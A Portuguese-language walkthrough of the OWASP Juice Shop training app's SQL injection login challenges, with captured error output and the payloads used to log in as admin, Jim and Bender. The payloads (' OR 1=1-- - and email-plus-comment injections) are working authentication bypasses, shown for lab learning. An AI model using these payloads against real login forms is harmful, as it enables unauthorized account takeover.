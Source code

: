 # Injection

## Login Admin

> Faça login com a conta do administrador.

Para esse desafio, podemos navegar até a página de autenticação e tentar manipular a lógica de autenticação. Supondo que o banco de dados utilize [SQL](https://aws.amazon.com/pt/what-is/sql/), podemos interceptar a requisição, inserir um apóstrofo `'` no campo de e-mail e observar o comportamento da aplicação. Ao enviar a requisição modificada, obtive a seguinte resposta em JSON:

{% code overflow="wrap" %}
```json
{
  "error": {
    "message": "SQLITE_ERROR: unrecognized token: \"96ca9d2f94b871e6933b51800e24e917\"",
    "stack": "Error\n    at Database.<anonymous> (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:185:27)\n    at /juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:50\n    at new Promise (<anonymous>)\n    at Query.run (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:12)\n    at /juice-shop/node_modules/sequelize/lib/sequelize.js:315:28\n    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)",
    "name": "SequelizeDatabaseError",
    "parent": {
      "errno": 1,
      "code": "SQLITE_ERROR",
      "sql": "SELECT * FROM Users WHERE email = ''' AND password = '96ca9d2f94b871e6933b51800e24e917' AND deletedAt IS NULL"
    },
    "original": {
      "errno": 1,
      "code": "SQLITE_ERROR",
      "sql": "SELECT * FROM Users WHERE email = ''' AND password = '96ca9d2f94b871e6933b51800e24e917' AND deletedAt IS NULL"
    },
    "sql": "SELECT * FROM Users WHERE email = ''' AND password = '96ca9d2f94b871e6933b51800e24e917' AND deletedAt IS NULL",
    "parameters": {}
  }
}
```
{% endcode %}

Perceba que a aplicação retorna um erro excessivamente verboso, indicando detalhadamente o que houve no back-end[^1]. Isso indica que há a possibilidade de [SQL Injection](https://www.kaspersky.com.br/resource-center/definitions/sql-injection), pois podemos manipular a consulta e alterar o funcionamento da consulta ao banco de dados. Dessa forma, podemos tentar alterar a consulta para que o banco de dados retorne o primeiro resultado da tabela `Users` inserindo o payload `' OR 1=1-- -`. Tendo como base a consulta que foi retornada no erro, ao inserir esse payload, ela ficará da seguinte forma:

```sql
SELECT * FROM Users WHERE email = '' OR 1=1-- -' AND password = '96ca9d2f94b871e6933b51800e24e917' AND deletedAt IS NULL
```

Ou seja, a consulta está **PEDINDO** (SELECT) para o banco de dados uma instância **DA** **ENTIDADE** (FROM) `Users` **A QUAL** (WHERE) o campo `email` seja vazio (email='') **OU** o numeral 1 seja igual a 1 (1=1). Por fim, é utilizado o `-- -` para indicar que toda instrução a partir da que informamos seja considerada um comentário e não seja processada pelo banco de dados. Dessa forma, a instrução é encerrada e como a condição 1=1 só pode ser verdadeira, o banco de dados entende que precisa retornar o primeiro resultado da tabela, que nesse caso é o `admin`, o que nos garante acesso à conta do administrador e soluciona o desafio.

## Login Jim

> Faça login com a conta do Jim.

Agora que sabemos da vulnerabilidade de SQL injection, basta manipularmos a query para fazer login como o usuário Jim. Usando o payload `jim@juice-sh.op' -- -`, a query será construída da seguinte forma:

```sql
SELECT * FROM Users WHERE email = 'jim@juice-sh.op'-- -' AND password = '96ca9d2f94b871e6933b51800e24e917' AND deletedAt IS NULL
```

Como o restante da query foi comentado, ela está apenas indicando que deveria ser buscado o usuário com o e-mail `jim@juice-sh.op`. Com isso, somos capazes de fazer login como o usuário Jim e o desafio é solucionado.

## Login Bender

> Faça login com a conta do Bender.

Seguinte o mesmo princípio do desafio anterior, podemos apenas alterar o e-mail para `bender@juice-sh.op`, resultando na seguinte query:

```sql
SELECT * FROM Users WHERE email = 'bender@juice-sh.op'-- -' AND password = '96ca9d2f94b871e6933b51800e24e917' AND deletedAt IS NULL
```

[^1]: a parte da aplicação responsável por tratar as consultas ao banco de dados
